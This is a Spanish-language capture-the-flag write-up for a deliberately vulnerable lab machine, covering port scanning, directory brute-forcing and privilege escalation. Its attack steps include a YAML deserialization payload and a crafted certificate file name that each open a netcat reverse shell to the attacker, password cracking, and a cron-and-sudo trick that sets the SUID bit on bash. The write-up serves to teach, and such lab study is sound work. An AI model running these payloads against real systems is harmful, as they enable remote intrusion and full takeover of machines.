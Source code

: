 ```php 
##########################################################################################################
#
# CTF a la Máquina CVE1 de InfayerTS (Thanks) basada en el writeup de Pablo AKA LordP4 (Thanks)
# pero finalizándola como creo que la planteó su autor.
#
# Lo dejo por aquí por si a alguien le puede resultar interesante
#
# DATE: 16/Agosto/2023
#
#########################################################################################################
```
# Footprinting

```bash 
IP_atacante -> $ifconfig -> 192.168.0.79
IP_objetivo -> $netdiscover -r 192.168.0.0/24 -> 192.168.0.86
```

# Escaneo y Enumeración

* Veo que puertos tiene abiertos,

```php 
nmap -sVC -T5 -n -p- 192.168.0.86
```
* Obtengo los siguientes puertos abiertos, 22 SSH, 80 y 9090 HTTP

```php 
PORT   STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey: 
|   3072 3a9a6c9800a7c86694fe587e61a7f9e8 (RSA)
|   256 9d6f0d13023c6545791b3d9be25e245f (ECDSA)
|_  256 82ba5482f71da265fc9f25dc43ee7e4c (ED25519)
80/tcp   open  http    Apache httpd 2.4.54 ((Debian))
|_http-title: Apache2 Debian Default Page: It works
|_http-server-header: Apache/2.4.54 (Debian)
9090/tcp open  http    Apache httpd 2.4.54 ((Debian))
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_http-server-header: Apache/2.4.54 (Debian)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Enumeración

* En el puerto 80 está la web de debian sin aparente modificación

* La web en el puerto `9090`, en su código fuente tiene este comentario

```php
 #Fichero<br /><!--Backend developed with PyTorch Lightning 1.5.9-->
```

* La vulnerabilidad y la POC está documentada en [https://huntr.dev/bounties/31832f0c-e5bb-4552-a12c-542f81f111e6/]
 
* Creo un fichero yml
```yml
- !!python/object/new:yaml.MappingNode
  listitems: !!str '!!python/object/apply:subprocess.Popen [["nc","-e", "/bin/bash", "192.168.0.79", "1234"]]'
  state:
    tag: !!str dummy
    value: !!str dummy
    extend: !!python/name:yaml.unsafe_load
```
* Pongo un netcat a la escucha, pero no me funciona

* Hago búsqueda de directorios y ficheros y veo que existe un fichero llamado `file.yaml`

```php
gobuster dir -r -u http://192.168.0.86:9090/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x txt,html,yaml

===============================================================
2023/08/10 22:39:59 Starting gobuster in directory enumeration mode
===============================================================
/manual               (Status: 200) [Size: 676]
/file.yaml            (Status: 200) [Size: 235]
```
* Lo hago pero llamando el fichero `file.yaml`, espero un ratito y ahora si funciona

# Acceso

* Existe un usuario llamado `wicca` y dentro de `/etc/cron.d/` existe un fichero llamado `cve1` con este contenido

```php
*/1 * * * * www-data python3 /var/www/cve/2021-4118.py
*/1 * * * * www-data sleep 20; python3 /var/www/cve/2021-4118.py
*/1 * * * * www-data sleep 40; python3 /var/www/cve/2021-4118.py
*/1 * * * * wicca c_rehash /etc/ssl/certs/
*/1 * * * * wicca sleep 30; c_rehash /etc/ssl/certs/
*/1 * * * * root python3 /root/0845.py
*/1 * * * * root sleep 20; python3 /root/0845.py
*/1 * * * * root sleep 40; python3 /root/0845.py
```
* El comando `c_rehash` tiene una vulnerbilidad **CVE-2022-1292**, [https://github.com/alcaparra/CVE-2022-1292/blob/main/README.md]

1. Me voy al directorio `/etc/ssl/certs`
2. Me creo el fichero
```php
echo "-----BEGIN CERTIFICATE-----" > "hey.crt\`nc -c sh 192.168.0.79 12345\`"
```
3. Espero que se ejecute el cron y ya soy `wicca`
4. Obtengo bandera

```console
HMVM{}
```

# Elevación a Root

* Ejecuto un `sudo -l`

```php
User wicca may run the following commands on cve-pt1:
    (root) NOPASSWD: /usr/bin/tee
```
> El comando `tee` redirecciona a un fichero, parecido a lo que hace `>`

# Hasta ahora es clavado al writeup de Pablo

## Elevación a root II forma

* En el directorio de `wicca` tenemos un fichero zip protegido con contraseña. Me lo traigo a mi máquina y lo crackeo con John.

```php
zip2john Backup.zip > Backup.zip.hash

john --wordlist=/usr/share/wordlists/rockyou.txt Backup.zip.hash
```

* La password es `secret!` y dentro tengo un fichero en python `0845.py`

```python
───────┬────────────────────────────────────────────────────────────
       │ File: 0845.py
───────┼────────────────────────────────────────────────────────────
   1   │ #!/usr/bin/env python3
   2   │ 
   3   │ import os, sys
   4   │ from pytorch_lightning import Trainer
   5   │ from pytorch_lightning.utilities.argparse import *
   6   │ 
   7   │ os.environ["PL_TRAINER_GPUS"] = 'os.system("COMMAND LIST")'
   8   │ parse_env_variables(Trainer)
───────┴────────────────────────────────────────────────────────────
```

* Y un fichero `readme.txt`

```php
Dear Admin,

I leave you in this directory the script that I have developed, be sure to take a look at the code and parameterize the command you want to run.

Best regards,

PS: For convenience you can indicate a text file with the list of command you want to run.

Wicca
Developer of Doom
```

* En el cron también vi una línea que ejecutaba un script python

```php
*/1 * * * * root python3 /root/0845.py
```

* Y debe tener una línea `'os.system("COMMAND LIST")'` en la que que **COMMAND LIST** llamará a un fichero de texto con el comando que quiera ejecutar.
 
* Puedo intentar modificar un supuesto fichero `/root/command.txt`, según comenta en el *readme* con un comando a ejecutar, porque puedo usar `tee` como `root`

```php
echo "chmod u+s /bin/bash" | sudo /usr/bin/tee /root/command.txt
```

* Y esperar a que el cron lo ejecute

```php
ls -l /bin/bash
-rwsr-xr-x 1 root root 1234376 Mar 27  2022 /bin/bash
```

* Ejecuto un `bash -p` y ya soy `root`

```php
bash -p
bash-5.1# whoami
whoami
root
```

* Obtengo bandera

```php
bash-5.1# ls -l
ls -l
total 12
-r--r----- 1 root root 248 Dec  7  2022 0845.py
-rw-r--r-- 1 root root  20 Aug 16 10:10 command.txt
-r-------- 1 root root  39 Dec  7  2022 root.txt
bash-5.1# cat root.txt
cat root.txt
HMVM{}
```
